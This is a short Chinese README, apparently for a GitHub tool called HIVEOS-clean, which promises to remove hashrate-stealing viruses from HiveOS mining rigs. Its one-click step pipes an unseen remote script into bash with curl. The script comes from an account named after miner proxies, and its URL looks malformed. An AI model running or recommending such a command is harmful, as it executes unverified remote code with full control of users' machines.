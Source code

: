 # HIVEOS-clean
针对HIVEOS及其他定制版本（比如asia版，bigminer等）强力杀毒！
对偷算力，算力劫持等病毒有奇效，无后台，可自行测试！

一键杀毒命令，运行后矿机会自动杀毒重启

```bash 
curl -s https://github.com/SSLminerProxy/HIVEOS-clean/new/main/clean.sh | bash
